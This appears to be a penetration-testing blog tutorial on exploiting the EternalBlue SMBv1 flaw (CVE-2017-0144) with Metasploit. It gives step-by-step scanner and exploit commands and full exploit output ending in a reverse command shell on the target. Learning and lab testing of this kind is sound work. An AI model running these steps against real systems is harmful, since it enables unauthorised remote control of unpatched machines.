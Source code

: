 ```yaml
---
title: "How to Utilize CVE-2017-0144 to Exploit Vulnerable Windows Machines (Scan and Exploit within RCE)"
date: 2018-05-19T21:57:25+0800
tags: ["Ethical Hacking", "Metasploit", "Penetration Testing", "Windows", "Windows Exploit", "Windows Vulnerability", "RCE", "Remote Code Execution", "CVE-2017-0144", "EternalBlue", "SMBv1", "WannaCry"]
lastmod: 2025-0303T00:18:34+0800
---
```


## Introduction

In this article, I will guide you through the process of exploiting a Windows machine using the EternalBlue exploit (CVE-2017-0144) within the Metasploit framework. This exploit allows an attacker to gain remote code execution (RCE) on a vulnerable Windows machine.

### CVE-2017-0144

CVE-2017-0144 is a critical vulnerability in the Windows operating system that enables an attacker to execute arbitrary code on a remote system. This vulnerability was notably exploited by the WannaCry ransomware in 2017, causing widespread damage to organizations worldwide. It affects the SMBv1 protocol in Windows, allowing an attacker to send a specially crafted packet to a vulnerable system and execute arbitrary code.

Although this vulnerability is now considered old, I still remember the significant impact it had at the time. Today, let's explore how we can exploit this vulnerability using Metasploit.

## Disclaimer

This article is for educational purposes only. If you discover a vulnerable system, please report it to the system owner or administrator. Do not use this information for malicious purposes.

## Prerequisites

Before we begin, you need to have the following:

- A vulnerable Windows machine (Windows 7, Windows 8, Windows 10, Windows Server 2008, Windows Server 2012, Windows Server 2016)
- Kali Linux or any other GNU/Linux distribution with Metasploit installed

We assume that you have a strong understanding of ethical hacking and penetration testing concepts.

### Scanning for Vulnerable Machines

Metasploit provides a module to scan for vulnerable machines using the `smb_ms17_010` module. To use this module, follow these steps:

```bash
msfconsole
```

This command will open the Metasploit console. Once you are in the console, use the following command to load the `smb_ms17_010` module:

```bash
use auxiliary/scanner/smb/smb_ms17_010
```

Next, set the `RHOSTS` parameter to the IP range you want to scan. For example, to scan the IP address `192.168.0.113`, use the following command:

```bash
set RHOSTS 192.168.0.113
```

Now, initiate the scan by running the following command:

```bash
exploit
```

If the target machine is vulnerable, you will see the output: `Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)`.

### Exploiting the Vulnerability

After identifying a vulnerable machine, you can exploit the vulnerability using the `exploit/windows/smb/ms17_010_eternalblue` module. To use this module, follow these steps:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Next, set the `RHOST` parameter to the IP address of the vulnerable machine. For example, to exploit the IP address `192.168.0.113`, use the following command:

```bash
set RHOST 192.168.0.113
```

Now, exploit the vulnerability by running the following command:

```bash
exploit
```

You should receive a command shell from the Windows machine. You can now execute any command on the target machine, gaining full control over it using CVE-2017-0144.

```
[*] Started reverse TCP handler on 192.168.0.106:4444
[*] 192.168.0.113:445 - Connection to target for exploitation.
[+] 192.168.0.113:445 - Connection established for exploitation.
[+] 192.168.0.113:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.0.113:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.0.113:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61 Windows 7 Ultima
[*] 192.168.0.113:445 - 0x00000010  74 65 20 36 2e 31 20 53 65 72 76 69 63 65 20 50 te 6.1 Service P
[*] 192.168.0.113:445 - 0x00000020  61 63 6b 20 31 20 78 36 34 20 28 36 34 2d 62 69 ack 1 x64 (64-bi
[*] 192.168.0.113:445 - 0x00000030  74 29 00 t).
[*] 192.168.0.113:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.0.113:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.0.113:445 - Sending all but last fragment of exploit packet
[*] 192.168.0.113:445 - Starting non-paged pool grooming
[*] 192.168.0.113:445 - Sending SMBv2 buffers
[*] 192.168.0.113:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.0.113:445 - Sending final SMBv2 buffers.
[*] 192.168.0.113:445 - Sending last fragment of exploit packet!
[*] 192.168.0.113:445 - Receiving response from exploit packet
[*] 192.168.0.113:445 - ETERNALBLUE overwrite completed...
[*] 192.168.0.113:445 - Sending egg to corrupted connection.
[*] 192.168.0.113:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (192.168.0.106:4444 -> 192.168.0.113:49187) at 2018-05-19 12:56:02 -0400
[*] 192.168.0.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.0.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.0.113:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd ..
cd ..

C:\Windows> cd ..
cd ..

C:\> mkdir Hacked
mkdir Hacked
```

You now have full control over this exploit. You can perform any actions you desire on this machine.

![Exploiting Windows Machine](./featured.png)

## Conclusion

Exploiting CVE-2017-0144 using the Metasploit framework demonstrates the importance of keeping systems updated and patched against known vulnerabilities. While this article serves as a guide for educational purposes, it is crucial to remember the ethical implications of such actions. Always ensure that you have permission to test and exploit systems, and report any vulnerabilities you discover to the appropriate authorities.

## References

- Computer Skill. (2018, May 20). *Kali Linux - Tutorial #2 Using EternalBlue Hack Windows7 By IPV4* [Video]. YouTube. https://www.youtube.com/watch?v=mA1_o68khmc
- Computer Skill. (2018, May 20). *Kali Linux - Tutorial #1 Using EternalBlue Scanner* [Video]. YouTube. https://www.youtube.com/watch?v=WucGHIB7cJI
